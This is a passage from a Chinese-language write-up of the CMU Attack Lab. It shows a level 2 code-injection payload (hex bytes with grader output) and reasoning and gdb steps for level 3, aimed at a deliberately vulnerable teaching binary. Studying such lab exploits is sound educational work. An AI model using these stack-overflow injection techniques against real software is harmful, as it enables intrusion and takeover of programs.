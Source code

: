 ```bash
Type string:Touch2!: You called touch2(0x59b997fa)  
Valid solution for level 2 with target ctarget  
PASS: Would have posted the following:  
       user id bovik  
       course  15213-f15  
       lab     attacklab  
       result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 78 DC 61 55
```

##### level3
- ctarget中有`hexmatch`和`touch3`这两个函数：任务是让ctarget执行touch3而不是返回test函数。此处应该注入的应为string。
- 注意：
	- 需要在利用缓冲区溢出的字符串中包含`cookie`的字符串表示形式。该字符串应该有8个十六进制数组成。注意没有前导0x。
	- 注意在c语言中的字符串表示会在末尾处加一个`\0`。
	- 您注入的代码应将寄存器`％rdi`设置为此字符串的地址。
	- 调用函数`hexmatch`和`strncmp`时，它们会将数据压入堆栈，从而覆盖存放`getbuf`使用的缓冲区的内存部分。 因此，需要注意存放`Cookie`字符串的位置。
```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	/* "%.8x"表示应转换为最小宽度为8个字符的小写十六进制表示。如果生成的字符串短于8个字符，则会用前导零填充。 */
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;//这里为9的原因是我们要比较最后一个是否为'\0'
}

void touch3(char *sval)
{
	vlevel = 3;/* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```
- touch3反汇编：
```c
00000000004018fa <touch3>:  
 4018fa:       53                      push   %rbx    
 4018fb:       48 89 fb                mov    %rdi,%rbx  
 4018fe:       c7 05 d4 2b 20 00 03    movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>  
 401905:       00 00 00    
 401908:       48 89 fe                mov    %rdi,%rsi  
 40190b:       8b 3d d3 2b 20 00       mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>  
 401911:       e8 36 ff ff ff          call   40184c <hexmatch>  
 401916:       85 c0                   test   %eax,%eax
 ...
```
解答：因为random的加入，所以字符串s的位置是不确定的。反汇编中`add  $0xffffffffffffff80,%rsp`为hexmatch分配了128字节的栈。所以buf中的内容会被覆盖，需要找到更加安全的栈空间存放所要执行的代码。在getbuf初始阶段rsp为0x5561dca0，0x5561dca0这个字节存放的便是getbuf的return address（即call getbuf的下一条指令）：
```bash
(gdb) b *0x4017a8
(gdb) r
(gdb) info r rsp  
rsp            0x5561dca0          0x5561dca0  
(gdb) x 0x5561dca0  
```